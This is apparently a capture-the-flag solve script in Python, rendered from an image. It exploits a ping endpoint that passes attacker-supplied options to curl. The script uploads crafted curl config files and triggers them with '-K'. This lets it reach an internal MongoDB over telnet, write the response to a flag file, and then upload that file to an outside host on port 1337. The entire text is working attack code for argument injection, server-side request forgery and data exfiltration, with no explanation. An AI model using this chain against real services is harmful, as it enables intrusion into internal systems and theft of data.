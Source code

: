 ``` py

print('upload curl config')
with open('curl.config', 'wb') as fout:
    fout.write(("""
next
url="telnet://mongodb:27017"
upload-file="GET"
output="flag.txt"
no-buffer
""").strip().encode())

res = requests.post('%s/api/ping' % url, data = {
    'url': 'http://[...]/curl.config',
    'opt': '-o',
    'data': 'POST',
})
assert res.status_code == 200

time.sleep(5)

print('download flag')
try:
    res = requests.post('%s/api/ping' % url, data = {
        'url': 'http://google.com/',
        'opt': '-K',
        'data': 'POST',
    })
    assert res.status_code == 200
except:
    pass

time.sleep(10)

print('upload exfil config')
with open('curl.config', 'wb') as fout:
    fout.write(("""
next
url="telnet://[...]:1337"
upload-file="flag.txt"
""").strip().encode())

res = requests.post('%s/api/ping' % url, data = {
    'url': 'http://[...]/curl.config',
    'opt': '-o',
    'data': 'POST',
})
assert res.status_code == 200

time.sleep(5)

print('exfil')
try:
    res = requests.post('%s/api/ping' % url, data = {
        'url': 'http://google.com/',
        'opt': '-K',
        'data': 'POST',
    })
    assert res.status_code == 200
except:
    pass
```
